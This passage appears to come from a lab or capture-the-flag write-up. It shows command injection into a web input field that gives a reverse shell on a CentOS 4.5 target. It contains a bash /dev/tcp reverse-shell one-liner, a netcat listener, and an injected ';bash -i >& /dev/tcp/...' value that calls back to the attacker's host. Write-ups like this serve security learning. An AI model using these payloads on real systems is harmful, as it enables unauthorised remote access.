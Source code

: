 Let Write Payload to obtain a reverse shell by this reference , https://medium.com/@cuncis/reverse-shell-cheat-sheet-creating-and-using-reverse-shells-for-penetration-testing-and-security-d25a6923362e

```
bash -i >& /dev/tcp/<attacker IP>/<attacker port> 0>&1
```

Let Start Listen using netcat on port 4545

```
┌──(voidgojo㉿voidgojo)-[~]
└─$ nc -lvnp 4545
listening on [any] 4545 ...
```

Execute this on the input field

```
;bash -i >& /dev/tcp/192.168.69.5/4545 0>&1
```

<img src="../img/Pasted image 20240529115815.png" alt="Example Image" width="1080"/>

We Got Shell !!! but not root privilege escalate d , Let escalate before that gather info about machine through CLI

<img src="../img/Pasted image 20240529115847.png" alt="Example Image" width="1080"/>

```
bash-3.00$ lsb_release -a
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
bash-3.00$
```
